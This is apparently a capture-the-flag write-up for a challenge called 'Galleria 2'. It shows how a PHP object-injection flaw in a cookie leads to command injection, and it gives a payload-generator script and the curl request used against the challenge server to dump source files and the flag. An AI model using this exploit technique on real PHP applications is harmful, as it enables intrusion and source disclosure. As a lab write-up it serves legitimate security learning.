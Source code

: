 # Galleria 2

Looking at the initial request we find a cookie that looks like a serialized php string that's been urlencoded `Set-Cookie: tracked=s%3A5%3A%22false%22%3B`

If we start enumerating the rest of the site we'll see that directory listings are possible, and looking in `http://164.90.176.158/assets/php/` we find a
`StatisticsClass.php.bak` file which means we can download the source.  The server is just going to give us the file rather than execute it.  And we see

```php
<?php

class Statistics 
{
    private $counter_output_path = "/tmp/counter";

    public function __construct()
    {
        if (!file_exists($this->counter_output_path))
        {
            system("touch {$this->counter_output_path}");
        }
    }

    public function update($client_ip_address)
    {
        file_put_contents($this->counter_output_path, $client_ip_address . PHP_EOL, FILE_APPEND);
    }

    public function __destruct()
    {
        system('find ' . escapeshellcmd($this->counter_output_path) . ' && echo Statistics Plugin version 1.0 is working');
    }

    public function getNumberOfVisitors()
    {
        return system("wc -l /tmp/counter | awk '{print $1}'");
    }
}
```

This class looks to be vulnerable to object injection given the `__destruct()` call, and it looks like the `system()` call should be vulnerable to
command injection.  Let's try and set something up to generate a payload for us:

```php
<?php

class Statistics {

    private $counter_output_path = ". -name *.php -exec cat {} ;";
}


echo "Cookie: tracked=" . urlencode(serialize(new Statistics())) . "\n";
```

I came up with the above `$counter_output_path` via some trial and error, just to get something in place to test the command injection and give us some
results to see if it worked properly.  Let's try it out.

```
╭─zoey@virtual-parrot ~/sec/cscml/galleria1 ‹master*› 
╰─$ php gen-payload.php 
Cookie: tracked=O%3A10%3A%22Statistics%22%3A1%3A%7Bs%3A31%3A%22%00Statistics%00counter_output_path%22%3Bs%3A28%3A%22.+-name+%2A.php+-exec+cat+%7B%7D+%3B%22%3B%7D
╭─zoey@virtual-parrot ~/sec/cscml/galleria1 ‹master*› 
╰─$ curl --silent -H "Cookie: tracked=O%3A10%3A%22Statistics%22%3A1%3A%7Bs%3A31%3A%22%00Statistics%00counter_output_path%22%3Bs%3A28%3A%22.+-name+%2A.php+-exec+cat+%7B%7D+%3B%22%3B%7D" http://164.90.176.158/ | grep FLAG
</html><?php // S2FLAG:xADGFHSFNDHJBXSETGsg ?>
```

Sending the request the first time it was obvious it was a success as we got the source for every php file included in the response.  I was assuming we'd then need
to go on to search for other files or try to setup a reverse shell, but in the source I saw a comment with `FLAG` in it.  The `grep` in the above it just to filter
out all the other source code and display the flag.